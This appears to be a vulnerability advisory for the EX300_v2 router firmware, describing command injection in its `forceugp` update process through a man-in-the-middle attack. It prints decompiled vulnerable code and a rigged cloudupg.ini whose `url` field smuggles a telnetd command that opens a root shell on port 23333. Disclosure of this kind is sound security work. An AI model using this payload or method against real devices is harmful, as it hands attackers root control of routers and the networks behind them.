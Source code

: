 ### Affected device

production: EX300_v2   
version: V4.0.3c.140_B20210429  

### Vulnerability description

Vulnerability Type: RCE

A command injection was found in EX300_v2, V4.0.3c.140_B20210429. The update process `forceugp`of the router allows unauthenticated remote attackers to achieve remote code execution as root via a MitM attack. 

`forceugp` will read the config file `var/cloudupg.ini` and  try to download firmware. Here we can inject command in parament `url`.  

- forceugp

 ```
	... 
	inifile_get_string("/var/cloudupg.ini", "INFO", "url", url);
  inifile_get_string("/var/cloudupg.ini", "INFO", "magicid", v4);
  v0 = 3;
  if ( (unsigned int)strlen(url) < 0xA )
    return -1;
  while ( 1 )
  {
    sprintf(v2, "wget -O %s  %s", "/var/uImage.img", url); //命令注入
    system(v2);
    sprintf(v2, "md5sum %s | cut -d ' ' -f1", "/var/uImage.img");
    getCmdStr(v2, v6, 33);
 ```



- post to firmware server to check new firmware

![](./src/check.png)

Since device requests by HTTP, so we can hijack dns request , the repeater will connect to the attacker server instead of legal one.  



![](./src/mitm.png)



- /var/cloudupg.ini

```
[status]
status                         = 4
netcheck                       = 0
timestamp                      = 1636514189
download                       = 2
checkend                       = 1
parameter                      = 1

[info]
version                        = hacked.hacked
magicid                        = pass
aprule                         =
time                           = 1
mode                           = 1
url                            = &telnetd -l/bin/sh -p 23333& 2>dev/null&
```




